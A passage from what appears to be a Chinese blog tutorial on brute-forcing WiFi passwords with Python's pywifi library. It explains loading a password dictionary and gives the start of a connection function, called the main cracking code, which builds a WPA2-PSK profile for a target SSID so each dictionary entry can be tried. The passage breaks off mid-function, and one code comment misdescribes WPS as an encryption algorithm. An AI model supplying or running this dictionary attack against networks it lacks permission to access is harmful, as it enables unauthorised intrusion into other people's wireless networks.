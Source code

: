 
3

读取密码本进行破解

接下来我们就需要一个密码本，然后采用只读的方式，一行一行读取，这里的密码本可以用下面代码生成，也用去网上下载一个常用wifi密码，只要是TXT文本就可以。

   

```
    #密码本路径
    path="./password.txt"

    #打开文件
    file=open(path,"r")
    while True:
        try:
            #一行一行读取
            pad=file.readline()

```

<img src="https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X2dpZi9MamliNFNvN3l1V2hneEdFNFJYUDVrTEZxQlZ2QklUMEpYWmJpYmV0bGRMY1NwMlU0RXhGWU5mMVVSODF5bVg0azNrYUt3cWZtR25ZZ0hSZklvTWlhZEt1dy82NDA?x-oss-process=image/format,png">

好了

接下来就是完整的代码

破解wifi主体

```
# coding:utf-8
import pywifi
from pywifi import const
import time

#测试连接，返回链接结果
def wifiConnect(pwd):

    #抓取网卡接口
    wifi=pywifi.PyWiFi()

    #获取第一个无线网卡
    ifaces=wifi.interfaces()[0]

    #断开所有连接
    ifaces.disconnect()
    time.sleep(1)
    wifistatus=ifaces.status()

    if wifistatus ==const.IFACE_DISCONNECTED:

        #创建WiFi连接文件
        profile=pywifi.Profile()

        #要连接WiFi的名称
        profile.ssid="aaa你猜"

        #网卡的开放状态
        profile.auth=const.AUTH_ALG_OPEN

        #wifi加密算法,一般wifi加密算法为wps
        profile.akm.append(const.AKM_TYPE_WPA2PSK)

        #加密单元
        profile.cipher=const.CIPHER_TYPE_CCMP

        #调用密码
```